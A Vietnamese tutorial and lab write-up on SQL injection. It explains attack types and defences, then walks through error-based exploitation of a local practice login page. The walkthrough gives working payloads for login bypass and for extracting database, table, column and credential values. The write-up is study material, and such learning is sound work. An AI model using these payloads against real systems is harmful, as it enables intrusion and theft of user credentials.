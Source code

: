 # Tìm hiểu SQL injection
## 1. SQL injection là gì?

SQL injection (SQLi) là một lỗ hổng bảo mật web cho phép kẻ tấn công can thiệp vào các truy vấn mà ứng dụng thực hiện đối với cơ sở dữ liệu. 
Với SQL injection, hacker có thể truy cập một phần hoặc toàn bộ dữ liệu trong hệ thống. Trong nhiều trường hợp, hacker không chỉ đọc được dữ liệu mà còn có thể chỉnh sửa dữ liệu. Lúc này hacker có thể đăng nhập dưới vai trò admin, lợi dụng hệ thống, hoặc xoá toàn bộ dữ liệu khiến hệ thống ngừng hoạt động.

## 2. Các dạng tấn công SQL injection

![](https://i.imgur.com/jIHZycb.png)

### 2.1. In-band SQLi

In-band SQL injection là kiểu tấn công SQL injection phổ biến và dễ khai thác nhất. In-band SQLi xảy ra khi kẻ tấn công sử dụng cùng một kênh liên lạc để khởi động các cuộc tấn công và thu thập kết quả. 
Hai loại phổ biến nhất của In-band SQLi là Error-based SQLi và Union-based SQLi.
* Error-based: kẻ tấn công thực hiện inject các câu truy vấn lỗi thông qua input, sau đó dựa vào những thông báo lỗi này để thu thập thông tin về cấu trúc DB.
* Union-based: kẻ tấn công lợi dụng toán tử UNION để thu thập thông tin về DB.

### 2.2. Inferential (Blind) SQLi

Thông tin về cơ sở dữ liệu không được hiển thị với người dùng nên kẻ tấn công phải gửi payload và thu thập thông tin thông qua các response.
Blind SQLi thường mất nhiều thời gian để khai thác hơn các dạng SQLi khác.
Có hai loại Blind SQLi là Time-based và Boolean-based.
* Time-based: Hacker sẽ gửi một truy vấn SQL, làm cho DB đợi (trong vài giây) trước khi có thể hoạt động. Sau đó, hacker có thể xem thời gian DB cần để phản hồi, một truy vấn là đúng hay sai. Dựa trên kết quả, một HTTP repsonse sẽ được tạo ra. Vì vậy hacker có thể tìm ra thông báo mà chúng đã sử dụng trả về đúng hay sai, không cần dựa vào dữ liệu từ DB.
* Boolean-based: Hacker gửi một truy vấn SQL đến DB, làm ứng dụng trả về một kết quả. Kết quả có thể khác nhau tùy vào truy vấn đúng hay sai. Dựa vào đó, kẻ tấn công điều chỉnh câu truy vấn để khai thác.

### 2.3. Out-of-band SQLi
 
Out-of-band SQL Injection không phổ biến lắm, chủ yếu là do nó phụ thuộc vào các tính năng được bật trên máy chủ cơ sở dữ liệu đang được ứng dụng web sử dụng.
Phương thức tấn công này sử dụng một cấu trúc truy vấn SQL để yêu cầu sever trả về kết quả thông qua các kênh liên quan đến mạng.

## 3. Cách phòng chống SQLi

* **Lọc dữ liệu từ người dùng:** Ta sử dụng filter để lọc các kí tự đặc biệt (; ” ‘) hoặc các từ khoá (SELECT, UNION) do người dùng nhập vào. 
* **Không cộng chuỗi để tạo SQL:** Sử dụng parameter thay vì cộng chuỗi. 
* **Không hiển thị exception, message lỗi:** Hacker dựa vào message lỗi để tìm ra cấu trúc database. Khi có lỗi, ta chỉ hiện thông báo lỗi chứ đừng hiển thị đầy đủ thông tin về lỗi, tránh hacker lợi dụng.
* **Phân quyền rõ ràng trong DB:** Nếu chỉ truy cập dữ liệu từ một số bảng, nên tạo một account trong DB và gán quyền truy cập cho account đó. Lúc này, dù hacker có inject được sql cũng không thể đọc dữ liệu từ các bảng chính, sửa hay xoá dữ liệu.
* **Backup dữ liệu thường xuyên:** Dữ liệu phải thường xuyên được backup để nếu có bị hacker xoá thì ta vẫn có thể khôi phục được. 

___

# Khai thác SQL injection

## 1. Khai thác Error-based 

Khi nhập `' OR 1=1 -- ` vào ô username, em nhận được thông báo đăng nhập thành công nên ở đây dính SQLi.

![](https://i.imgur.com/9G1I2t0.png)

Khi nhập vào đây một câu truy vấn lỗi syntax thì sẽ có thông báo lỗi hiện ra. Đây là dấu hiệu của error-based.

![](https://i.imgur.com/cJjElxV.png)

Để lấy được tên cơ sở dữ liệu, em tạo ra một payload dựa trên `Duplicate entry for key 'group_key'`. 
**Payload:**`' or 1=1 group by concat(database(),'-', floor(rand(0)*2)) having min(0)-- `
`floor(rand(0)*2)`: Sinh ra 0 hoặc 1 để nối với tên database phía trước. Điều này chắc chắn tạo ra một group_key bị trùng, chậm nhất là ở lần thứ ba.

![](https://i.imgur.com/dhSyED7.png)

Như vậy, em tìm được tên cơ sở dữ liệu là `kcsc`.
Lúc này, em tạo một payload tương tự để tìm tên bảng.
**Payload:** `' or 1=1 group by concat((select table_name from information_schema.tables where table_schema='kcsc'),'-',floor(rand(0)*2)) having min(0)-- `

![](https://i.imgur.com/kWFYSdV.png)

Ở đây, em thấy xuất hiện lỗi `Subquery returns more than 1 row in C:\xampp\htdocs\KCSC-train\task_1\login.php:28`. Điều này do cơ sở dữ liệu có nhiều hơn 1 bảng. Vậy để tìm ra tên bảng, em cần thêm `limit 0,1` vào payload để lấy ra tên bảng đầu tiên trong DB.
**Payload:** `' or 1=1 group by concat((select table_name from information_schema.tables where table_schema='kcsc' limit 0,1),'-',floor(rand(0)*2)) having min(0)-- `

![](https://i.imgur.com/G9WyOX4.png)

Ở đây, em biết được tên bảng đầu tiên là `task1`.
Tương tự, thay `limit 1,1`, em có tên bảng thứ hai là `upload`. 
Tăng lên `limit 2,1` em thấy không hiển thị lỗi nữa. Vậy DB này có 2 bảng là `task1` và `upload`. 
Tiếp theo, em khai thác thông tin ở bảng `task1`.
Bằng cách như trên, em cũng tìm ra được tên các cột trong bảng.
**Payload:** `' or 1=1 group by concat((select column_name from information_schema.columns where table_name='task1' limit 0,1),'-',floor(rand(0)*2)) having min(0)-- `.

![](https://i.imgur.com/h9UAKCh.png)

![](https://i.imgur.com/AxIr78R.png)

![](https://i.imgur.com/BUQ2qvP.png)

Vậy bảng `task1` có 3 cột lần lượt là: `id`, `username`, `password`.
Bây giờ, để lấy dữ liệu từ bảng, em truyền payload như sau:

**Payload lấy id:**`' or 1=1 group by concat((select id from task1 limit 0,1),'-',floor(rand(0)*2)) having min(0)-- `

**Payload lấy username:**`' or 1=1 group by concat((select username from task1 limit 0,1),'-',floor(rand(0)*2)) having min(0)-- `

**Payload lấy password:**`' or 1=1 group by concat((select password from task1 limit 0,1),'-',floor(rand(0)*2)) having min(0)-- `
![](https://i.imgur.com/IFG4Swc.png)

![](https://i.imgur.com/U32xc1N.png)

![](https://i.imgur.com/68b7wch.png)

Em đã có được thông tin người dùng đầu tiên như sau:
> id: 22

> username: Cuc

> password: cuc

Muốn lấy thông tin những người dùng còn lại, ta làm tương tự như trên và thay bằng `limit 1,1`, `limit 2,1`,...